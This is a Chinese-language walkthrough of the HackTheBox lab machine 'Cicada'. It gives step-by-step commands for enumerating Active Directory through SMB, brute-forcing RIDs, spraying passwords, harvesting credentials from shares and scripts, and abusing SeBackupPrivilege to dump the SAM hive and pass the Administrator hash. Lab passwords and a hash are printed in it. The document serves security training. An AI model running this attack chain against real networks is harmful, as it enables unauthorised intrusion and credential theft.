 ```yaml
---
description: AD枚举 / SeBackupPrivilege /
---
```


# ✔️ Cicada

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cicada 10.129.5.101 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息和开放端口，判断该机器应该是域控，先将域名添加进/hosts文件中：

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 尝试使用匿名登录SMB服务，获得了一些SMB共享目录：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录后，发现只有/HR目录可以进入，查看后发现一个名为Notice from HR.txt的文本文件，把它下载到本地：

```bash
smbclient \\\\10.129.5.101\\HR
dir
mget *
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 查看Notice from HR.txt文件内容得知是一封录用通知，里面包含了一个新入职员工用户的默认密码：<mark style="color:red;">**Cicada$M6Corpb\*@Lp#nZp!8**</mark>

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

* 使用enum4linux进行枚举，没什么收获：

```bash
enum4linux 10.129.5.101
```

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

* 此时已经获取到了一个有效密码，但是还没有有效用户名，使用nxc进行暴破得到一串用户名：

```bash
nxc smb 10.129.5.101 -u "guest" -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 把这些用户名复制下来保存为一个username.txt文件，先用kerbrute跑一下有8个有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.5.101 -d cicada.htb username.txt
```

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 然后再使用nxc和用户名列表，还有之前收集到的默认密码，进行暴破：

```bash
nxc smb 10.129.5.101 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

* 已获取到了一个有效凭证：<mark style="color:red;">**michael.wrightson :Cicada$M6Corpb\*@Lp#nZp!8**</mark>
* 通过用户michael查询目标系统上更多的用户信息，找到了用户david的密码：

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

<figure><img src="../../.gitbook/assets/9 (29).png" alt=""><figcaption></figcaption></figure>

* 此时又得到了一个新的有效凭证：`david.orelious ：aRt$Lp#7t*VQ!3`，利用该凭证登录share共享目录：

```bash
smbclient -L //10.10.11.35 -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/10 (31).png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录，在\DEV目录中发现一个powershell脚本文件：**Backup\_script.ps1**

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/11 (28).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本发现另一个新的有效凭证：`emily.oscars ：Q!3@Lp#M6b*7t*Vt`

<figure><img src="../../.gitbook/assets/12 (27).png" alt=""><figcaption></figcaption></figure>

* 利用emily这个凭证使用evil-winrm进行登录，get shell：

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

<figure><img src="../../.gitbook/assets/13 (28).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
upload winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (25).png" alt=""><figcaption></figcaption></figure>

* 同时可以简单的手动枚举一下，比如当前账户的权限有哪些：

```bash
whoami /priv
```

<figure><img src="../../.gitbook/assets/15 (24).png" alt=""><figcaption></figcaption></figure>

* 发现当前账户有备份操作的权限，这意味着可以利用该特权下载sam.hive文件和system.hive文件，从中提取Administrator的密码哈希，再利用它进行登录

### 漏洞利用

* 创建一个temp目录：

```bash
mkdir C:\temp
```

<figure><img src="../../.gitbook/assets/16 (23).png" alt=""><figcaption></figcaption></figure>

* 将目标系统的sam文件和system文件存到当前的temp目录中：

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (21).png" alt=""><figcaption></figcaption></figure>

* 将这两个文件下载到Kali本地

### ROOT

* 使用这两个文件提取凭证：

```bash
pypykatz registry -sam sam.hive system.hive -o secrets.txt
```

<figure><img src="../../.gitbook/assets/18 (20).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator的密码哈希：

<figure><img src="../../.gitbook/assets/19 (20).png" alt=""><figcaption></figcaption></figure>

* 利于获取到的哈希进行登录，获得admin权限的shell：

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../.gitbook/assets/20 (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (15).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}

{% endhint %}
